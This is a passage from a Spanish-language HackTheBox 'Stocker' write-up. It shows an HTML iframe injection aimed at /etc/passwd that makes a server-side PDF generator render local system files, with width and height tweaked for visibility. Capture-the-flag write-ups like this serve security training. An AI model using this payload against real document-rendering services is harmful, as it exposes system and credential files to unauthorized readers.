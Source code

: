 ![](/assets/images/HTB/writeup-stocker/pdfconhtml.png)

Para poder ver mejor todos los archivos de la máquina mejorando el codigo HTML jugando con <span style="color:blue"> width </span> y <span style="color:blue"> height </span> 

```bash
# Inyectamos código HTML jugando con width y height para conseguir ver mediante el PDF archivos de la maquina
--------------------------------------------------------------
<iframe src=/etc/passwd > width =1000 px height =1000 px </iframe>
```

![](/assets/images/HTB/writeup-stocker/root-angoose.png)
